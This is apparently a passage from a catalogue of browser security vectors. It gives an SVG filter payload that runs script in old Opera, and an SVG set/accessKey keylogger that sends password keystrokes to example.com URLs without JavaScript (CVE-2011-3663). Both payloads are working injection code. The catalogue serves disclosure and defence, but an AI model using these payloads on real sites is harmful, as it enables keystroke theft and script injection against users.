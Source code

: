 ```
<svg> <image style='filter:url("data:image/svg+xml,<svg xmlns=%22http://www.w3.org/2000/svg%22><script>parent.alert(1)</script></svg>")'> <!-- Same effect with <image filter='...'> --> </svg> 
```

Do not allow style and filter attributes inside user generated SVG data. It's considerably the best to generally avoid user generated SVG data - if possible.

*   opera 11.60
*   opera 12.0

*   svg

*   xss
*   inline
*   opera
*   css
*   style

*   #88

*   #109

reporter：LeverOne

### SVG <set> and <animate> elements allow key-logging w/o JavaScript#132test

It is possible to achieve an injection capable to exfiltrate keyboard events without any JavaScript execution via SVG and set/animate timing attributes. In essence, an access key can be specified to trigger events inside an SVG. In case an inline SVG is being used, the listener for these keys observes the whole document - and not just the SVG itself. This means that even keystrokes into a form input trigger the SVG access key handler. Once this access key handler is being combined with adding a new keystroke-depending image source to an existing image, the form input will be filled, and the SVG will reset a hidden image source according to the key being pressed and thereby silently exfiltrate the data. Since all this works without using any JavaScript, it was also possible to execute this attack in latest Thunderbird versions - with the vector invisibly wrapped inside the mail-body. The problem has been reported and fixed, CVE-2011-3663 has been assigned. Current stable versions of Firefox still allow to observe the problem - using a network traffic monitor/Firebug is recommended.

```
<!doctype html> <form> <label>type a,b,c,d - watch the network tab/traffic (JS is off, latest NoScript)</label> <br> <input name="secret" type="password"> </form> <!-- injection --><svg height="50px"> <image > <set attributeName="xlink:href" begin="accessKey(a)" to="//example.com/?a" /> <set attributeName="xlink:href" begin="accessKey(b)" to="//example.com/?b" /> <set attributeName="xlink:href" begin="accessKey(c)" to="//example.com/?c" /> <set attributeName="xlink:href" begin="accessKey(d)" to="//example.com/?d" /> </image> </svg> 
```

*   firefox 4
*   firefox latest

*   svg

*   html5
*   noscript
*   keylogger
*   firefox
*   thunderbird
